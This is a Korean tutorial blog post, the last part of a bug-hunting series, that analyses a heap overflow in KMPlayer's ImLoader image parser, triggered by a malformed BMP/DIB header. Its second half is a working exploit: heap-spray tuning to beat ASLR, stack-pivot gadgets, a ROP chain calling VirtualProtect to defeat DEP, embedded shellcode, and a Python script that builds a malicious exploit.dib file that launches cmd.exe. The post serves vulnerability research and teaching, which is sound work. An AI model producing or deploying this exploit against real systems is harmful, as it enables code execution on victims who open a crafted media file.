



[버그헌팅 튜토리얼 Part 1](https://hackyboiz.github.io/2021/03/07/l0ch/bughunting-tutorial/)

[버그헌팅 튜토리얼 Part 2](https://hackyboiz.github.io/2021/03/17/l0ch/bughunting-tutorials-part2/)

[버그헌팅 튜토리얼 Part 3](https://hackyboiz.github.io/2021/03/24/l0ch/bughunting-tutorials-part3/)

어느덧 버그헌팅 튜토리얼의 마지막 글입니다. Part 3 에서 바로 이어지는 내용이니 긴말 없이 바로 시작해볼게요!


---

이제부터는 콜스택을 복구해볼 겁니다. 콜스택을 복구하면 우리가 어느 정도의 코드를 봐야하는 지 사이즈가 나옵니다. 이걸 복구하고 어느 부분부터 분석하면 좋을지를 판단할 겁니다.

콜스택을 복구하는 방법 역시 위에서 아래로(탑다운) 아래에서 위로(바텀업) 뭘 어떻게 하던 상관없습니다. 그냥 자신이 편하신 대로 하면 됩니다. 바텀업 방식으로 할 때에는 크래시가 발생하는 함수의 처음 부분에 브레이크 포인트를 걸어서 바로 직전의 리턴어드레스를 보면서 하나하나 올라가면 됩니다. 탑다운 방식으로 할 경우 동적 디버깅과 정적 디버깅을 적절히 사용하면 됩니다. 일단 제일 위(라고 생각하는 함수)에 전달되는 인자를 보고 먼저 정적 리버싱을 진행합니다. 그리고 결과들을 기반으로 동적 디버깅을 같이 수행하면 됩니다.

나는 아무 생각이 없다!!! 그냥 리버싱을 최대한 줄이고 싶어요!!! 시간은 많아요!!!(는 개뿔 제로데이는 묵히면 똥됩니다)라고 하시는 분들은 그냥 제일 위에 있는 함수에서 p 누르고 크래시 터지면 프로그램 재시작하고 그 시점으로 가서 다시 p누르고… 이렇게 쭉쭉 내려가는 방법도 있습니다. 무식하지막 확실하기도 하죠…. 는 시간 낭비 개쩔… 스레드 잘못 분석하면 리얼 시간 낭비… (스레드는 힙을 공유하기 때문에 여러 개의 스래드가 사용하는 힙에서 오버플로우가 발생하면 취약점이 존재하는 스레드 말고 다른 스레드에서도 크래시가 발생할 수 있습니다)ㅋㅋㅋㅋㅋㅋ 뭐 그래도 이것만큼 생각없이 하는 건 없는 거 같네욬ㅋㅋㅋㅋㅋ (지극히 콜스택 복구에만 해당되는 겁니다… 결국은 다 분석해야되요 ㅠㅠ)

콜스택을 복구하고 천천히 따라다가 보면 아래와 같이 `ImLoader+0x27BB0` 에서 헤더 검사를 진행하는 것을 발견할 수 있습니다. (캡처 사진의 헥스레이 코드는 아이다 버전에 따라 조금씩 다를 수 있습니다)


v7 에 있는 값이 “MB”(숫자로 되어 있어서 앞에서 못 찾은 거네요)인지 비교하고 틀리면 익셉션을 발생시키고 맞다면 해석을 진행하게 됩니다. 그럼 `sub_427620` 에서 파일 해석을 진행하면서 크래시가 발생하겠네요!!

그럼 이제부터는 실제 파일을 처리하는 함수가 어떻게 진행되는 지 알아볼게요.



먼저 파라미터로 전달되어 온 Stream 값을 통해 `BITMAPINFOHEADER` 의 사이즈를 가져와서 지역변수에 저장해줍니다. 그럼 당연히 우리가 수정한 `0x1f28` 이겠죠? 그런다음 `0x1f28+0x40c` 만큼 `BITMAPINFOHEADER` 를 저장하기 위한 메모리를 할당해주고 해당 주소를 header 에 저장해줍니다. 그리고 `size` 와 `0xc` 가 같은 지 비교를 해서 결과값을 `size_bool` 에 저장합니다. 이 때 `size` 는 `0x1f28` 이기 때문에 `size_bool`에는 0 이 저장됩니다. 따라서 밑에 분기점에서 `size_bool` 이 `0` 이기 때문에 else 로 빠지게 됩니다.


Else 로 빠지게 되면 파일의 `BITMAPINFOHEADER` 시작 부분부터 size 만큼 읽어와서 header 에 저장하게 됩니다. 앞에서 `size+0x40c` 만큼 할당을 했기 때문에 오버플로우가 발생할 수 없습니다. 

그런 다음, compression 에 대한 분기문을 만나게 됩니다. 이 값은 `0x00` 에서 `0xa00`으로 수정했기 때문에 해당 분기로 들어갈 수 있게됩니다. 분기로 들어가면 첫 번 째로 하는 일이 오브젝트를 할당하네요. 그럼 `BITMAPINFOHEADER` 가 할당된 뒷 부분에 할당이 되겠네요.(`BITMAPINFOHEADER` 가 페이지를 하나 더 할당할만큼 크질 않으니) 이 부분이 중요합니다!!! 왜냐하면 우리가 덮게 될 객체니까요 ㅎㅎ(응? `BITMAPINFOHEADER`뒤에 할당된다며… 오버플로우 안난다며….)

뒤에 더 보도록 하죠 ㅎㅎㅎㅎ



이제는 `this` 에 `BITMAPINFOHEADER` 정보를 저장합니다. 참 찰지게 다 넣네요.
그리고 마지막에는 모든 비트맵 데이터를 저장합니다. 우리는 익스플로잇을 할 때 이 부분을 이용해서 스프레이를 할 수 있습니다 ㅎㅎ


이제 취약점 부분입니다 ㅎㅎㅎ 드디어 ㅎㅎ

먼저 어떤 주소를 계산합니다. Header 주소 기준으로 `size` 만큼 뒤에 주소를 저장합니다. 그런 다음 밑에 모든 분기를 건너뛰고 `sub_41AAF0` 함수로 갑니다. 이 함수는 파일 스트림에서 `byte_4BA6F4[size_bool] * header->biClrUsed = 0x800` 만큼 읽어서 위에서 계산한 주소에 저장합니다.

여기에서 오버플로우가 발생합니다!!!! 아까 위에서 얘기했듯이 header 의 크기는 `size+0x40c` 입니다 ㅋㅋㅋ 근데 여기에서는 `header+size` 에 `0x800` 바이트를 할당하니 뒤에 있는 객체를 덮게 되는 거죠!! 그럼 객체가 덮히기 전과 후를 한번 살펴볼게요!!

Before:


After:


헤헿 자 이제 그럼 eip 를 잡을 수 있겠네요!!!


네….? 뭘 잡는 다는 거죠….? 쥬륵…. ㅠㅠ 후우 역시 인생은 험난하네요…

으음… 이제 디버깅해보면서 하나하나 해결해 나갈게요 ㅠㅠ 
먼저 `0x11111111` 에 Access violation 이 발생하는 것은 우리가 넣은 데이터가 유효한 메모리를 가리키게 하면 되겠죠!! 하지만!!! ASLR 이 걸려있어서 그렇게 하는 게 쉽지 않다는 거…. 그렇기 때문에 스프레이를 진행해야 합니다. 다행히(??) KMPlayer 와 ImLoader 가 32 비트로 컴파일 되어 있기 때문에 스프레이를 하면 어느 정도 릴라이어블하게 원하는 주소에 메모리를 매핑할 수 있습니다. 할당하는 메모리에 크기에 따라서 자주 매핑되는 주소가 달라집니다. 저는 여기에서 150M 정도를 0x11 로 스프레이 했습니다. 

150M 로 스프레이한 이유는 디버깅할 때 이 정도 크기가 가장 적당한 속도가 나와서 인데요. 디버깅할 때 `0x11111111` 에 매핑이 안되면 다시 시작해서 테스트를 해야되잖아요? 크기가 커지면 원하는 주소에 매핑이 더 잘되지만 윈도우가 업데이트를 하면할수록 랜덤마이징이 잘되서 크기가 커도 잘 안되더라고요 ㅠㅠ(예전에는300M 만 해도 거의 고정이라고 들었는데…) 가장 효율적이라고 생각하는 크기로 했습니다. 만약 원하는 데로 잘 된다면 아래와 같이 해당 주소에 잘 매핑된 것을 볼수 있습니다!!


그리고 이대로 실행하면!!!


짝짝짝!! Eip 를 잡았습니다!!! 소리질러어어어어어어!!!! (하… 험난했다…) 이제 익스만 하면 되겠네요 ㅎㅎㅎ

---

일단 어떻게 eip 를 잡게되었는 지 함 볼게요. 일단 스택에 있는 리턴어드레스를 확인해서 어디에서 call 혹은 jmp 를 했는 지 확인해볼게요.




스택에 있는 마지막 리턴어드레스를 보니 `ImLoader+0x357f` 인것을 확인할 수 있고 이 주소보다 위에 있는 인스럭션을 확인해보면 `call dword ptr [ecx-4]`인 것을 확인할 수 있습니다. 그리고 ecx 는 eax 가 가리키는 메모리에서 가져온 것이네요.


그럼 이제 중요한거는 `0x11111111` 이 가리키는 데이터가 파일에서의 오프셋(위치??)이 eax 가 가리키는 데이터의 오프셋이 일치하냐는 것인데요. 이 부분을 확인해보기 위해서 일단 `0x11111111` 부분이 어떤 위치에 있는 지 보겠습니다.


마지막 메모리가 전체 비트맵 이미지를 담고 있는 부분이기 때문에 해당 메모리 기준으로 계산하면 됩니다. `0x11111111 – 0x101cb056 = 0xF460BB` 네요. 앞에서 객체를 덮을 때에는 파일 기준으로 앞 부분 데이터를 가져와 복사하기 때문에 페이로드를 담는 데에는 큰 문제가 없을 것 같습니다!!

자 이제 페이로드를 작성해야합니다. 페이로드를 작성하기 전에 MONA 와 메타스플로잇을 사용해서 모듈들의 미티게이션 적용 항목, 필요한 가젯 검색, 쉘코드 생성을 해야하는 데 이 부분은 인터넷을 검색하면 많이 나오기 때문에 생략하도록 하겠습니다. 결론적으로 `KMPlayer.exe` 에 Rebase 가 안 걸려있어서 `KMPlayer.exe` 에 있는 가젯을 사용하도록 할 것이구요, 메타스플로잇을 통해서는 계산기를 실행시키는 쉘코드를 만들 것입니다.

일단 ASLR 은 스프레이로 어느 정도 커버하였고 DEP 만 무력화시키고 쉘코드를 작성하면 됩니다. DEP 를 무력화하려면 ROP 를 해야죠!! 이제 esp 를 우리 데이터가 있는 힙 메모리로 피봇시킬 것입니다. 음 적당한 가젯을 찾아보도록 하죠.

```c
0x00523702 : # PUSH ECX # POP ESP # POP ESI # POP EBX # RETN
```

일부로 두 번 더 POP 해주는 이유는 위에 보시다시피 `0x11111111` 부분에 8 바이트가 다른 데이터로 덮혀 있기 때문에 이 8 바이트를 뛰어넘고 리턴하기 위함입니다.

자 그러면 페이로드를 작성할 때 아래와 같이 하면 되겠네요.

제일 처음 부분에는 위 가젯의 주소를 사용할 겁니다. 그리고 바로 그 뒤에는 또 피봇하는 가젯을 넣어줄 겁니다. 이번에는 그냥 힙에서만요. 왜냐하면 이번에는 `0x101cb056` 에 매핑이 되었지만 다음에 또 이 언저리 주소에 매핑될 때도 이 주소라는 보장이 없으니깐요. 최소한 하위 2 바이트는 바뀌겠죠. 그렇기 때문에 esp 를 스택에서 힙으로, 다시 힙에서 다 높은 주소의 힙으로 피봇하는 가젯 두 개를 스프레이해줄 겁니다. 힙에서 힙으로 피봇하는 가젯은 아래 껄로 쓰도록 할게요.

```c
 0x0095dffa : # ADD ESP,19010 # POP EBP # POP EDI # POP ESI # POP EBX # RETN
```

그리고 중간중간에 프로그램에서 힙을 쓰다가 바꾼 메모리들을 스킵할 수 있도록 아래 가젯을 사용하겠습니다.

```c
0x00433712 : # POP EDX # POP EDI # POP ESI # POP EBX # RETN
```

그리고 이제 높은 주소로 피봇했으면 그 부분에도 ret 으로 스프레이를 해주면 좀 더 정확도가 높아지겠네요 ㅎㅎ

그럼 파일을 구성할 때에는 아래와 같이 하면 되겠네요


아래는 제가 작성한 익스플로잇 코드입니다.

```python
from struct import pack, unpack
from collections import OrderedDict

def create_rop_chain():
	# rop chain generated with mona.py - www.corelan.be
	rop_gadgets = [
	0x00453c50, # POP EDX # RETN [KMPlayer.exe]
	0x00d6a848, # ptr to &VirtualProtect() [IAT KMPlayer.exe]
	0x0094eb72, # MOV EAX,DWORD PTR DS:[EDX] # RETN [KMPlayer.exe]
	0x007d2499, # XCHG EAX,ESI # RETN [KMPlayer.exe]
	0x00652cb0, # POP EBP # RETN [KMPlayer.exe]
	0x0042390c, # & jmp esp [KMPlayer.exe]
	0x004c0267, # POP EBX # RETN [KMPlayer.exe]
	0x00000201, # 0x00000201-> ebx
	0x0052d95d, # POP EDX # RETN [KMPlayer.exe]
	0x00000040, # 0x00000040-> edx
	0x0082f8e0, # POP ECX # RETN [KMPlayer.exe]
	0x00d0aafc, # &Writable location [KMPlayer.exe]
	0x009fc414, # POP EDI # RETN [KMPlayer.exe]
	0x00426485, # RETN (ROP NOP) [KMPlayer.exe]
	0x0068c402, # POP EAX # RETN [KMPlayer.exe]
	0x90909090, # nop
	0x00744e56, # PUSHAD # RETN [KMPlayer.exe]
	]
	return ''.join(pack('<I', _) for _ in rop_gadgets)

#shellcode for runnig cmd.exe
shellcode = "\x90"*0x100
shellcode += "\xda\xd2\xd9\x74\x24\xf4\x5d\x29\xc9\xba\xfb\xe4\x15"
shellcode += "\xba\xb1\x30\x31\x55\x17\x03\x55\x17\x83\x16\x18\xf7"
shellcode += "\x4f\x14\x09\x7a\xaf\xe4\xca\x1b\x39\x01\xfb\x1b\x5d"
shellcode += "\x42\xac\xab\x15\x06\x41\x47\x7b\xb2\xd2\x25\x54\xb5"
shellcode += "\x53\x83\x82\xf8\x64\xb8\xf7\x9b\xe6\xc3\x2b\x7b\xd6"
shellcode += "\x0b\x3e\x7a\x1f\x71\xb3\x2e\xc8\xfd\x66\xde\x7d\x4b"
shellcode += "\xbb\x55\xcd\x5d\xbb\x8a\x86\x5c\xea\x1d\x9c\x06\x2c"
shellcode += "\x9c\x71\x33\x65\x86\x96\x7e\x3f\x3d\x6c\xf4\xbe\x97"
shellcode += "\xbc\xf5\x6d\xd6\x70\x04\x6f\x1f\xb6\xf7\x1a\x69\xc4"
shellcode += "\x8a\x1c\xae\xb6\x50\xa8\x34\x10\x12\x0a\x90\xa0\xf7"
shellcode += "\xcd\x53\xae\xbc\x9a\x3b\xb3\x43\x4e\x30\xcf\xc8\x71"
shellcode += "\x96\x59\x8a\x55\x32\x01\x48\xf7\x63\xef\x3f\x08\x73"
shellcode += "\x50\x9f\xac\xf8\x7d\xf4\xdc\xa3\xeb\x0b\x52\xde\x5e"
shellcode += "\x0b\x6c\xe0\xce\x64\x5d\x6b\x81\xf3\x62\xbe\xe5\x0c"
shellcode += "\x29\xe2\x4c\x85\xf4\x77\xcd\xc8\x06\xa2\x12\xf5\x84"
shellcode += "\x46\xeb\x02\x94\x23\xee\x4f\x12\xd8\x82\xc0\xf7\xde"
shellcode += "\x31\xe0\xdd\xbd\xd8\x7a\xde"

p = lambda x : pack("<L", x)
up = lambda x : unpack("<L", x)[0]

rop_chain = create_rop_chain()

BITMAPFILEHEADER = OrderedDict()
BITMAPINFOHEADER = OrderedDict()

BITMAPINFOHEADER['biSize'] = '\x28\x1f\x00\x00' # origin is 0x28
BITMAPINFOHEADER['biWidth'] = p(0x1c48)
BITMAPINFOHEADER['biHeight'] = p(0x1c48)
BITMAPINFOHEADER['biPlanes'] = '\x01\x00'
BITMAPINFOHEADER['biBitCount'] = '\x18\x00'
BITMAPINFOHEADER['biCompression'] = '\x00\x0a\x00\x00' # origin is 0x00
BITMAPINFOHEADER['biSizeImage'] = p(3 * (up(BITMAPINFOHEADER['biWidth']) *
up(BITMAPINFOHEADER['biHeight'])))
BITMAPINFOHEADER['biXPelsPerMeter'] = '\x00\x00\x00\x00'
BITMAPINFOHEADER['biYPelsPerMeter'] = '\x00\x00\x00\x00'
BITMAPINFOHEADER['biClrUsed'] = '\x00\x02\x00\x00' # origin is 0x00
BITMAPINFOHEADER['biClrImportant'] = '\x00\x00\x00\x00'

BITMAPFILEHEADER['bfType'] = 'BM'
BITMAPFILEHEADER['bfsize'] = p(up(BITMAPINFOHEADER['biSizeImage']) + 0x36)
BITMAPFILEHEADER['bfReserved1'] = '\x00\x00'
BITMAPFILEHEADER['bfReserved2'] = '\x00\x00'
BITMAPFILEHEADER['bfOffBits'] = '\x36\x00\x00\x00'

head = 'Fandu_'
tail = 'FANDU_'
spray = '\x11'
stack_to_heap = p(0x00523702) # PUSH ECX # POP ESP # POP ESI # POP EBX # RETN
heap_to_heap = p(0x0095ddef) # ADD ESP,19000 # POP EDI # POP ESI # POP EBX # RETN
pivot = p(0x00433712) # POP EDX # POP EDI # POP ESI # POP EBX # RETN
ret = p(0x00984e94) # RETN
offset1 = 0x11111111 - 0x101cb056 - 0x600000 # for calculating size of 0x11 spray
offset2 = 0x197c0d11 - 0x173772e1 - 0x100000 # for skip some data which are mutated

payload = ''
payload += head +'aa'
payload += spray * offset1
payload += (heap_to_heap + stack_to_heap) * (0x400000 * 2 / 8)
payload += pivot * ((up(BITMAPINFOHEADER['biSizeImage']) - len(payload) - offset2 - 0x1000 - len(tail)) / 4)
payload += ret * (0x20000 / 4)
payload += rop_chain
payload += shellcode
payload += spray * (up(BITMAPINFOHEADER['biSizeImage']) - len(payload)) #dummy
payload += tail

exploit = ''

for key in BITMAPFILEHEADER.keys() :
	exploit += BITMAPFILEHEADER[key]

for key in BITMAPINFOHEADER.keys() :
	exploit += BITMAPINFOHEADER[key]

exploit += payload

f = open('./exploit.dib', 'wb')
f.write(exploit)
f.close()
```

그리고 이 파이썬 스크립트를 실행시켜 떨궈진 `exploit.dib` 파일을 KMPlayer 에 넣어 실행하면!!!!


이렇게 cmd.exe 가 실행됩니다!!! 짝짝짝 ㅎㅎㅎㅎㅎㅎ

# 마지막 잡담

으으 드디어 끝났네요 ㅋㅋ 원래 12 월 중순인가 말인가 시작했는 데 1 월에 맨탈이 나가있어가지고 이제야 끝났네요 후우… 역시 나새끼는 개으른놈….

원래 이 글을 쓴 이유가 동아리 후배들 교육시키기 위한것도 있지만 사실 전에 cdpython 형이 이 취약점으로 버그헌팅 글 쓰면 좋을 거 같다고 해서 쓰게됬습니다 ㅋㅋ 많은 분들에게 도움이 되었으면 좋겠네요. 사실 요즘 너무 잘하는 사람이많아서 이런거 보는 사람이 있겠냐만은… 잘하는 사람은 이거 보지도 않겠지… 쥬륵 나도 이제 잘해야지…. ㅋㅋㅋ 근데 일단 졸업부터 하즈아아아아 ㅠㅠㅠㅠ

그래도 제가 이정도라도 할 수 있게 채찍질 해준 passket, combabo, cdpython, morinori89 형들 감사합니닼ㅋㅋㅋㅋㅋㅋㅋ 후우…. 사실 형들이랑 제일 많이 한거는 해킹보다는 술 처먹는 거 같지만…. 그리고 문서 피드백 준 SSG 후배들 Frozenbeer 땡큐땡큐 ㅋㅋㅋ

따…딱히 볼거는 없지만 fandu.tistory.com 많이 들어와 주세요 ㅎㅎㅎ 이제 많이 올릴게요…. ㅎㅎㅎㅎ 

그럼 다들 즐햌!!!